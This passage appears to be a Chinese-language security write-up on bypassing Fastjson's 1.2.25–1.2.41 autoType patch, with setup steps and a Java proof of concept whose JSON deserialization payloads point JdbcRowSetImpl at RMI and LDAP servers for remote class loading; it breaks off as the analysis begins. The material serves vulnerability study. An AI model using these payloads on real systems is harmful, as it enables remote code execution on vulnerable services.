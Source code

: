 # 环境搭建

还是用maven项目一键引入依赖

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.25</version>
</dependency>
```

# 1.2.25-1.2.41补丁绕过

之前说过在1.2.25的版本中把原来的TypeUtils.loadClass替换成了checkAutoType函数

在这个方法里面有一个autoTypeSupport参数默认为false

## 漏洞复现

这里需要开启autoTypeSupport

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Unser {
    public static void main(String[] argv) throws Exception{
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}}}
```

可以看到这里的payload相比于1.2.24的只是在利用类前面多了一个L，结尾多了一个分号

## 漏洞分析

前面的流程和1.2.24是一样的,当autoTypeSupport开启的时候进入checkAutoType方法看看

